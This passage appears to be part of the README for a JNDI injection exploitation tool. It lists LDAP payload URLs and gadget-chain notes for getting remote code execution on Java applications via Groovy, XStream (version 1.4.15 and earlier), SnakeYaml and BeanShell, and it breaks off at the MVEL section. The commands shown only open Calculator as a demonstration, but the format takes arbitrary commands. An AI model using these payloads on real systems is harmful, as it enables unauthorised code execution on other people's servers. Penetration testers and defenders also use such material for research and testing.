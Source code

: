 ### Groovy ClassLoader/Shell

Use `groovy.lang.GroovyClassLoader` and `groovy.lang.GroovyShell` to execute Groovy scripts

```bash
# GroovyClassLoader
ldap://127.0.0.1:1389/GroovyClassLoader/Command/open -a Calculator

# GroovyShell
ldap://127.0.0.1:1389/GroovyShell/Command/open -a Calculator
```

### XStream

Use XStream deserialization to achieve RCE (version <= 1.4.15)

The deserialization part uses UIDefaults + SwingLazyValue to trigger the following gadgets in sequence:

- Arbitrary file write: `com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename`
- XSLT Loading: `com.sun.org.apache.xalan.internal.xslt.Process._main`

The XSLT payload uses Spring's reflection library to call defineClass, so it requires a Spring environment

```bash
# XStream Bypass (depends on Spring)
# Based on arbitrary file write + XSLT loading, there is a probability of failure due to the order of precedence, so you need to try several times
ldap://127.0.0.1:1389/XStream/Command/open -a Calculator
```

### SnakeYaml

Use SnakeYaml deserialization to achieve RCE

The deserialization part uses URLClassLoader to load the `javax.script.ScriptEngineManager` SPI implementation class, and internally calls defineClass for class loading

```bash
# SnakeYaml Bypass
ldap://127.0.0.1:1389/SnakeYaml/Command/open -a Calculator
```

### BeanShell

Use `bsh.Interpreter.eval` to execute BeanShell scripts

```bash
# BeanShell Bypass
ldap://127.0.0.1:1389/BeanShell/Command/open -a Calculator
```

### MVEL

Use `org.mvel2.sh.ShellSession.exec` to execute MVEL expressions
